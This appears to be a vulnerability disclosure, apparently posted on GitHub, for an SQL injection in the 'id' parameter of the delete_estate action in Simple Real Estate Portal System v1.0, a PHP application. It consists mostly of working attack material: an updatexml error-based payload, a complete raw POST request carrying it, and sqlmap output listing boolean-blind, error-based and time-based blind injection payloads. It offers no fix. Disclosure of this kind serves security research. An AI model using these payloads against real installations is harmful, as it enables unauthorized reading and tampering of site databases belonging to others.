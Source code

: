 ## Simple Real Estate Portal System v1.0 has a SQL injection vulnerability

vendors: https://www.sourcecodester.com/php/15184/simple-real-estate-portal-system-phpoop-free-source-code.html

Vulnerability file: /reps/classes/Master.php?f=delete_estate

Vulnerability location: /reps/classes/Master.php?f=delete_estate , id

[+] Payload: id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point 

```
POST /reps/classes/Master.php?f=delete_estate HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/reps/admin/?page=amenities
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b7n0d4rju88m3p50kmalnvn6ti
Connection: close

id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point
```

![image](https://user-images.githubusercontent.com/54017627/160312116-11a0a7b6-99d4-4ce2-afa2-3ecc7c0e8847.png)

```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=7' RLIKE (SELECT (CASE WHEN (9646=9646) THEN 7 ELSE 0x28 END))-- qdhX

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=7' AND EXTRACTVALUE(8654,CONCAT(0x5c,0x7162767a71,(SELECT (ELT(8654=8654,1))),0x71717a7871))-- JBQn

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=7' AND (SELECT 1732 FROM (SELECT(SLEEP(5)))VLjc)-- LToO
---
```

![image](https://user-images.githubusercontent.com/54017627/160312285-97869dd4-58f0-405c-aa5d-026ec4676c56.png)

